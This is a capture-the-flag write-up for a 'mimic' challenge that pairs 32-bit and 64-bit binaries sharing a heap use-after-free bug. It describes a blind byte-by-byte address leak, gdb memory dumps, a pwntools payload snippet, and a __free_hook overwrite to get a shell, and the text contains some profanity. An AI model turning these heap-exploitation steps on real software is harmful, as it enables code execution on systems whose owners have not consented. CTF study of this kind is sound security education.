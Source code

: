 # information
This challenge is cyber mimic challenge, you need to fuck two basic heap UAF exploit at the same time.
You wont get any leak possibility, because there is output check, if `mimic32` and `mimic64` have different outputs, The process will exit.
```C
      if ( memcmp(chunk1, chunk2, offset) )
        handler();
```

# bug
UAF
# exploit
How to exploit it is a challenge. 
The author introduced a blind sqli technique based on the output.
We can utilize the edit function to leak heap address. Since there is no checking of your input chars.
We can set the 64bits list look like this.
```
0x602040 <stderr@@GLIBC_2.2.5>:	0x0000155555329540	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060 <list>:	0x0000000000603010	0x0000000000603050
0x602070 <list+16>:	0x0000000000603090	0x0000000000603070
0x602080 <list+32>:	0x0804b0900804b088	0x0804b1e000000001
0x602090 <list+48>:	0x0804b2e000000100	0x0000000000000000
0x6020a0 <list+64>:	0x0000000000602045	[0x00000000006020c0] 
0x6020b0 <list+80>:	0x0000000000000000	0x0000000000000000
0x6020c0 <list+96>:	0x0000000000000100	0x0000000000602046
0x6020d0 <list+112>:	0x000000000000006e	0x0000000000000000
```
list[8] will point to the stderr, and list[9] will point to the address below. firstly edit the list[9] to make list[8] a valid structure.
```python
    buf+= p64(0x602040+idx) + p64(list64+8*12)
    buf+= p64(0) + p64(0)#8
    buf+= p64(0x100) + p64(0x602041+idx)#9
    buf+= 'n'
    sl('4')
    sla('index?','0')
    sa('content:',buf)
    **edit(9,'x00'*7 + p64(bss64) + 'n')**
```
Like if we want to leak the byte at 0x602045, we have to make list[8] point to 0x602045, and *(0x602045 + 8) a valid writable address. After doing `edit(9, '\x00' * 7 + p64(bss64) + 'n')`.
```
gef➤  x/20gx 0x602045+0x8
0x60204d:	0x0000000000602360	0x000000000000006e
0x60205d:	0x0000603010000000	0x0000603050000000
0x60206d <list+13>:	0x0000603090000000	0x0000603070000000
0x60207d <list+29>:	0x900804b088000000	0xe0000000010804b0
0x60208d <list+45>:	0xe0000001000804b1	0x00000000000804b2
0x60209d <list+61>:	0x0000602045000000	0x00006020c0000000

```

32bits is the same. We can set the 32bits list look like this.
```
0x804b040 <stdin@@GLIBC_2.0>:	0x2aa62d602aa625a0	0x0000000000000000
0x804b050:	0x0000000000000000	0x0000000000000000
0x804b060 <list>:	0x0804c0280804c008	0x0804c0380804c048
0x804b070 <list+16>:	0x000000000804c058	0x0000000000000000
0x804b080 <list+32>:	0x0804b0900804b088	0x0804b1e000000001
0x804b090 <list+48>:	0x0804b2e000000100	0x0000000000000000
0x804b0a0 <list+64>:	0x0000000000602045	0x00000000006020c0
0x804b0b0 <list+80>:	0x0000000000000000	0x0000000000000000
0x804b0c0 <list+96>:	0x0000000000000100	0x0000000000602046
0x804b0d0 <list+112>:	0x000000000000006e	0x0000000000000000
```
Then edit the list[9].
After leaking, we can just overwrite the `__free_hook` and get the shell.

# thinking
It can be done with reverse shell, since there is no need to write anything to output with it.
But you need to bruteforce the 32bits ASLR as well.

Blind sqli is a great technique while attacking the mimic thing. FUCK the mimic thing... It's really useless.
